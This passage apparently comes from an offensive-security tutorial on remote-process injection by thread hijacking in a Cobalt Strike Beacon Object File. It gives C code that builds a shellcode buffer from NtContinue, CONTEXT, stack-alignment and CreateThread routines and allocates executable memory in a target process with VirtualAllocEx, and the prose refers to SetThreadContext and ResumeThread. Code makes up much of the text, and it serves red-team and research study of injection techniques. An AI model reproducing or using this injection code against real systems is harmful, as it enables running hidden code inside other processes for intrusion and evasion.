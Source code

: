 After the stack alignment is completed, all there is left to do is invoke `malloc` to create a large buffer that will contain all of our custom routines, inject the final buffer, and call `SetThreadContext` and `ResumeThread` to queue execution!

```c
// Allocating memory for final buffer
// Size of NtContinue routine, CONTEXT structure, stack alignment routine, and CreateThread routine
PVOID shellcodeFinal = (PVOID)MSVCRT$malloc(sizeof(ntContinue) + sizeof(CONTEXT) + sizeof(stackAlignment) + sizeof(createThread));

// Copy NtContinue routine to final buffer
mycopy(shellcodeFinal, ntContinue, sizeof(ntContinue));

// Copying CONTEXT structure, stack alignment routine, and CreateThread routine to the final buffer
// Allocation is already a pointer (PVOID) - casting to a DWORD64 type, a 64-bit address, in order to write to the buffer at a desired offset
// Using RtlMoveMemory for the CONTEXT structure to avoid casting to something other than a CONTEXT structure
NTDLL$RtlMoveMemory((DWORD64)shellcodeFinal + sizeof(ntContinue), &cpuRegisters, sizeof(CONTEXT));
mycopy((DWORD64)shellcodeFinal + sizeof(ntContinue) + sizeof(CONTEXT), stackAlignment, sizeof(stackAlignment));
mycopy((DWORD64)shellcodeFinal + sizeof(ntContinue) + sizeof(CONTEXT) + sizeof(stackAlignment), createThread, sizeof(createThread));

// Declare a variable to represent the final length
int finalLength = (int)sizeof(ntContinue) + (int)sizeof(CONTEXT) + sizeof(stackAlignment) + sizeof(createThread);
```

Before moving on, notice the call to `RtlMoveMemory` when it comes to copying the `CONTEXT` record to the buffer. This is due to `mycopy` being prototyped to access the source and destination buffers as`char*` data types. However, `RtlMoveMemory` is prototyped to accept data types of `VOID UNALIGNED`, which indicates pretty much any data type can be used, which is perfect for us as `CONTEXT` is a structure, not a `char*`.

The above code creates a buffer with the size of our routines, and copies it into the routine at the correct offsets, with the `NtContinue` routine being copied first, followed by the preserved `CONTEXT` record of the hijacked thread, the stack alignment routine, and the `CreateThread` routine. After this, the shellcode is injected into the remote process.

First, `VirtualAllocEx` is called again.

```c
// Inject the shellcode into the target process with read/write permissions
PVOID allocateMemory = KERNEL32$VirtualAllocEx(
	processHandle,
	NULL,
	finalLength,
	MEM_RESERVE | MEM_COMMIT,
	PAGE_EXECUTE_READWRITE
);

if (allocateMemory == NULL)
{
	BeaconPrintf(CALLBACK_ERROR, "Error! Unable to allocate memory in the remote process. Error: 0x%lx\n", KERNEL32$GetLastError());
}
```
